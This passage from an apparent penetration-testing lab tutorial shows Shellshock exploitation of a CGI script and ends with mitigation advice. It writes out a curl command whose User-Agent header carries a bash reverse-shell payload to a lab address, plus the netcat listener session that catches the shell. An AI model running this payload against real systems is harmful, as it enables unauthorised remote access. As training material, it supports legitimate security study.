 ```shell-session
```

**Exploitation to Reverse Shell Access**

Once the vulnerability has been confirmed, we can obtain reverse shell access in many ways. In this example, we use a simple Bash one-liner and get a callback on our Netcat listener.

Attacking Common Gateway Interface (CGI) Applications - Shellshock

```shell-session
AIceBear@htb[/htb]$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

From here, we could begin hunting for sensitive data or attempt to escalate privileges. During a network penetration test, we could try to use this host to pivot further into the internal network.

Attacking Common Gateway Interface (CGI) Applications - Shellshock

```shell-session
AIceBear@htb[/htb]$ sudo nc -lvnp 7777

listening on [any] 7777 ...
connect to [10.10.14.38] from (UNKNOWN) [10.129.204.231] 52840
bash: cannot set terminal process group (938): Inappropriate ioctl for device
bash: no job control in this shell
www-data@htb:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@htb:/usr/lib/cgi-bin$
```

***

### Mitigation

This [blog post](https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability) contains useful tips for mitigating the Shellshock vulnerability. The quickest way to remediate the vulnerability is to update the version of Bash on the affected system. This can be trickier on end-of-life Ubuntu/Debian systems, so a sysadmin may have first to upgrade the package manager. With certain systems (i.e., IoT devices that use CGI), upgrading may not be possible. In these cases, it would be best first to ensure the system is not exposed to the internet and then evaluate if the host can be decommissioned. If it is a critical host and the organization chooses to accept the risk, a temporary workaround could be firewalling off the host on the internal network as best as possible. Keep in mind that this is just putting a bandaid on a large wound, and the best course of action would be upgrading or taking the host offline.

***

### Closing Thoughts

Shellshock is a legacy vulnerability that is now nearly a decade old. But just because of its age, that does not mean we will not run into it occasionally. If you come across any web applications using CGI scripts during your assessments (especially IoT devices), it is definitely worth digging into using the steps shown in this section. You may have a relatively simple foothold awaiting you!
